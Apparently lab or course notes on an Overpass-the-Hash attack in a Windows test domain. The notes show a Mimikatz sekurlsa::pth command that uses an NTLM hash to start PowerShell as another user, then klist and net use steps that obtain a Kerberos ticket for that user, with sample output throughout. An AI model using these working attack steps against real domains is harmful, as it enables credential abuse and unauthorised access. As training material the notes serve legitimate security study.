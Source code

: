 ### Mimikatz Overpass-the-Hash Implementation

**Create New PowerShell Process with Hash:**
```mimikatz
# Overpass-the-Hash attack using cached NTLM hash
sekurlsa::pth /user:jen /domain:corp.com /ntlm:369def79d8372408bf6e93364cc93075 /run:powershell
```

**Sample Execution Output:**
```
user    : jen
domain  : corp.com
program : powershell
impers. : no
NTLM    : 369def79d8372408bf6e93364cc93075
  |  PID  8716
  |  TID  8348
  |  LSA Process is now R/W
  |  LUID 0 ; 16534348 (00000000:00fc4b4c)
  \_ msv1_0   - data copy @ 000001F3D5C69330 : OK !
  \_ kerberos - data copy @ 000001F3D5D366C8
   \_ des_cbc_md4       -> null
   \_ des_cbc_md4       OK
   \_ *Password replace @ 000001F3D5C63B68 (32) -> null
```

**Key Process Details:**
- **New PowerShell Session:** Creates PowerShell process in jen's context
- **LUID Assignment:** Unique Logon Session ID for the new process
- **Kerberos Integration:** Enables Kerberos ticket generation
- **Identity Behavior:** `whoami` shows original user (jeff), not impersonated user (jen)

### Kerberos Ticket Generation Process

**Initial Ticket Status:**
```powershell
# Check for existing Kerberos tickets (should be empty)
PS C:\Windows\system32> klist

Current LogonId is 0:0x1583ae
Cached Tickets: (0)
```

**Generate TGT via Network Authentication:**
```powershell
# Authenticate to network share to trigger TGT generation
PS C:\Windows\system32> net use \\files04
The command completed successfully.
```

**Verify Generated Kerberos Tickets:**
```powershell
PS C:\Windows\system32> klist

Current LogonId is 0:0x17239e

Cached Tickets: (2)

#0>     Client: jen @ CORP.COM
        Server: krbtgt/CORP.COM @ CORP.COM
        KerbTicket Encryption Type: AES-256-CTS-HMAC-SHA1-96
        Ticket Flags 0x40e10000 -> forwardable renewable initial pre_authent name_canonicalize
        Start Time: 2/27/2023 5:27:28 (local)
        End Time:   2/27/2023 15:27:28 (local)
        Renew Time: 3/6/2023 5:27:28 (local)
        Session Key Type: RSADSI RC4-HMAC(NT)
        Cache Flags: 0x1 -> PRIMARY
```